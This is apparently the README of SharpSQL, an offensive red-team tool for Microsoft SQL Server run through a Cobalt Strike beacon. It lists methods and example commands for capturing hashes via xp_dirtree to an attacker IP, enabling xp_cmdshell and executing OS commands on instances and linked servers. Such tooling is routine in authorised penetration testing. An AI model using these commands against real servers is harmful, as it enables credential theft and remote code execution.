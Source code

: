 # SharpSQL

Simple port of PowerUpSQL
- Methods and options are case-insensitive e.g. `Get-SQLInstanceDomain`/`get-sqlinstancedomain` or `-Instance`/`-instance`
- `-Instance` required for all methods except `Get-SQLInstanceDomain`

Thanks to [tevora-threat](https://github.com/tevora-threat) for getting the ball rolling.

## Usage
```
beacon> execute-assembly C:\Tools\SharpSQL.exe -help

SharpSQL by @mlcsec

Usage:

    SharpSQL.exe [Method] [-Instance <sql.server>] [-LinkedInstance <linked.sql.server>] [-Command <whoami>] [-Query <query>]

Options:

    -Instance                  - The instance to taget
    -db                        - The db to connect to (default: master)
    -LinkedInstance            - The linked instance to target
    -ip                        - The IP to xp_dirtree (share: /pwn)
    -User                      - The user to impersonate
    -Command                   - The command to execute (default: whoami - Invoke-OSCmd and Invoke-LinkedOSCmd)
    -Query                     - The raw SQL query to execute
    -help                      - Show  help

Methods:
    Get-SQLInstanceDomain      - Get SQL instances within current domain via user and computer SPNs (no parameters required)
    Get-Databases              - Get available databases (-Instance required)
    Get-DBUser                 - Get database user via USER_NAME (-Instance required)
    Get-GroupMembership        - Get group member for current user ('guest' or 'sysadmin') (-Instance required)
    Get-Hash                   - Get hash via xp_dirtree (-Instance and -ip required)
    Get-ImpersonableUsers      - Get impersonable users (-Instance required)
    Get-LinkedServers          - Get linked SQL servers (-Instance required)
    Get-LinkedPrivs            - Get current user privs for linked server (-Instance and -LinkedInstance required)
    Get-Sysadmins              - Get sysadmin users (-Instance required)
    Get-SystemUser             - Get system user via SYSTEM_USER (-Instance required)
    Get-SQLQuery               - Execute raw SQL query (-Instance and -Query required)
    Get-Triggers               - Get SQL server triggers (-Instance required)
    Get-Users                  - Get users from syslogins (-Instance required)
    Get-UserPrivs              - Get current user server privileges (-Instance required)
    Check-Cmdshell             - Check whether xp_cmdshell is enabled on instance (-Instance required)
    Check-LinkedCmdshell       - Check whether xp_cmdshell is enabled on linked server (-Instance and -LinkedInstance required)
    Enable-Cmdshell            - Enable xp_cmdshell on instance (-Instance required)
    Enable-LinkedCmdshell      - Enable xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Invoke-OSCmd               - Execute system command via_xp_cmdshell on instance (-Instance required)
    Invoke-LinkedOSCmd         - Executes system command via xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Ivnoke-ExternalScript      - Invoke external python script command execution (-Instance required)
    Invoke-OLEObject           - Invoke OLE wscript command execution (-Instance required)
    Invoke-UserImpersonation   - Impersonate user (-Instance and -User required)

Examples:

    SharpSQL.exe Get-SQLInstanceDomain
    SharpSQL.exe Get-UserPrivs -Instance sql.server
    SharpSQL.exe Get-Sysadmins -Instance sql.server
    SharpSQL.exe Get-LinkedServers -Instance sql.server
    SharpSQL.exe Get-Hash -Instance sql.server -IP 10.10.10.10
    SharpSQL.exe Invoke-OSCmd -Instance sql.server -Command "whoami /all"
    SharpSQL.exe Invoke-LinkedOSCmd -Instance sql.server -LinkedInstance linked.sql.server -Command "dir C:\users\"
```


## Demo
### Get-UserPrivs
![image](https://user-images.githubusercontent.com/47215311/153054239-3937a19a-5514-42fb-980c-4e1676f085ca.png)

### Invoke-OSCmd
![image](https://user-images.githubusercontent.com/47215311/153054117-3b149563-2ed4-4123-af70-8f17599e4220.png)



## Todo

- Test:
    - `Invoke-ExternalScript` - not tested in lab
    - `Invoke-OLEObject` - not tested in lab
    - `Invoke-UserImpersontation` - not tested in lab

- Fix:
    - `Enable-LinkedCmdshell` - rpc or metadata error currently, `Check-LinkedCmdshell` and `Invoke-LinkedOSCmd` work fine

- Add:
    - `Invoke-CustomAsm`
    - `Add-User`
    - `Add-LinkedUser`
    - double link crawl functionality, raw queries should work as is

